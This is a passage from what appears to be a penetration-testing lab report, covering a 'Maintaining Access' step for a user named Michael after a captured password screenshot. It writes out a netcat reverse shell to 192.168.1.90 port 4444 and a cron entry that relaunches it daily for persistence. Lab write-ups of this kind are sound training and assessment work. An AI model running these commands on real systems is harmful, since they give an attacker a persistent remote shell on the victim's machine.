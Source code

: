       ![steven_password](P3_Images/P3T1_steven_password.png)


3. **Maintaining Access**

  - In order to maintain persistence, a reverse shell was set up for the user, Michael.  
    - In addition, a Cronjob was added to attempt to automatically start the reverse shell periodically.
      - `crontab -e`
      - `30 7 * * * nc 192.168.1.90 4444 -e /bin/bash`
      - `nc 192.168.1.90 4444 -e /bin/bash`

        ![crontab](P3_Images/P3T1_reverse_shell_michael.png)
    